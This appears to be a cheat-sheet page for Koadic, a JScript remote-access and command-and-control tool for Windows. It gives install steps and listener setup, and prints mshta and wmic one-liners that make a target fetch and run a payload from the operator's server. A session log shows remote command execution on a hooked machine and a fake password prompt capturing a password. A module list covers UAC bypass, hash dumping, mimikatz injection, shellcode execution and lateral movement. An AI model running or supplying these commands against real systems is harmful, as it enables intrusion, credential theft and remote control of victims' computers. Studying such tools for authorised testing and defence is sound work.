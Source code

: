 # Koadic C3 COM Command & Control - JScript RAT

> Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire.

## Installation

```powershell
git clone https://github.com/zerosum0x0/koadic
git submodule init
git submodule update
pip2.7 install -r requirements.txt --user
python2.7 koadic
```

## Set a listener

```powershell
use stager/js/mshta
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] mshta http://192.168.1.19:4444/6DX7f
```

```powershell
use stager/js/wmic
set LHOST 192.168.1.19
set SRVPORT 4444
run

[>] wmic os get /FORMAT:"http://192.168.1.19:4444/lQGx5.xsl"
```

### Stagers

Stagers hook target zombies and allow you to use implants.

Module | Description
--------|------------
stager/js/mshta | serves payloads using MSHTA.exe HTML Applications
stager/js/regsvr | serves payloads using regsvr32.exe COM+ scriptlets
stager/js/wmic | serves payloads using WMIC XSL
stager/js/rundll32_js | serves payloads using rundll32.exe
stager/js/disk | serves payloads using files on disk



## List zombies and interact with them

```powershell
(koadic: sta/js/wmic)$ zombies

        ID   IP              STATUS  LAST SEEN
        ---  ---------       ------- ------------
        0    192.168.1.30    Alive   2018-10-04 17:07:12

(koadic: sta/js/wmic)$ zombies 0
        ID:                     0
        Status:                 Alive
        First Seen:             2018-10-04 17:05:00
        Last Seen:              2018-10-04 17:14:42
        IP:                     192.168.1.30
        User:                   DESKTOP-68URA9U\CrashWin
        [...]
        Elevated:               No
        [...]
```

Interact with `zombies zombie_id`, get a shell with `cmdshell zombie_id`.

```powershell
[koadic: ZOMBIE 0 (192.168.1.30) - C:\Users\CrashWin]> whoami
[*] Zombie 0: Job 1 (implant/manage/exec_cmd) created.
[+] Zombie 0: Job 1 (implant/manage/exec_cmd) completed.
Result for `cd C:\Users\CrashWin & whoami`:
desktop-68ura9u\crashwin
```

## Use an implant

Select an implant with `use module`, then fill the `info` with `set INFO value`, finally start the module with `run`.

```powershell
(koadic: sta/js/mshta)$ use implant/phish/password_box
(koadic: imp/phi/password_box)$ set ZOMBIE 1
(koadic: imp/phi/password_box)$ run
Input contents:
MyStrongPassword123!
```

### Implants

Implants start jobs on zombies.

Module | Description
--------|------------
implant/elevate/bypassuac_eventvwr | Uses enigma0x3's eventvwr.exe exploit to bypass UAC on Windows 7, 8, and 10.
implant/elevate/bypassuac_sdclt | Uses enigma0x3's sdclt.exe exploit to bypass UAC on Windows 10.
implant/fun/zombie | Maxes volume and opens The Cranberries YouTube in a hidden window.
implant/fun/voice | Plays a message over text-to-speech.
implant/gather/clipboard | Retrieves the current content of the user clipboard.
implant/gather/enum_domain_info | Retrieve information about the Windows domain.
implant/gather/hashdump_sam | Retrieves hashed passwords from the SAM hive.
implant/gather/hashdump_dc | Domain controller hashes from the NTDS.dit file.
implant/gather/user_hunter | Locate users logged on to domain computers (using Dynamic Wrapper X).
implant/inject/mimikatz_dynwrapx | Injects a reflective-loaded DLL to run powerkatz.dll (using Dynamic Wrapper X).
implant/inject/mimikatz_dotnet2js | Injects a reflective-loaded DLL to run powerkatz.dll (@tirannido DotNetToJS).
implant/inject/shellcode_excel | Runs arbitrary shellcode payload (if Excel is installed).
implant/manage/enable_rdesktop | Enables remote desktop on the target.
implant/manage/exec_cmd | Run an arbitrary command on the target, and optionally receive the output.
implant/phishing/password_box | Prompt a user to enter their password.
implant/pivot/stage_wmi | Hook a zombie on another machine using WMI.
implant/pivot/exec_psexec | Run a command on another machine using psexec from sysinternals.
implant/scan/tcp | Uses HTTP to scan open TCP ports on the target zombie LAN.
implant/utils/download_file | Downloads a file from the target zombie.
implant/utils/multi_module | Run a number of implants in succession.
implant/utils/upload_file | Uploads a file from the listening server to the target zombies.

## References

- [Pentestlab - koadic](https://pentestlab.blog/tag/koadic/)
- [zerosum0x0 Github - koadic](https://github.com/zerosum0x0/koadic)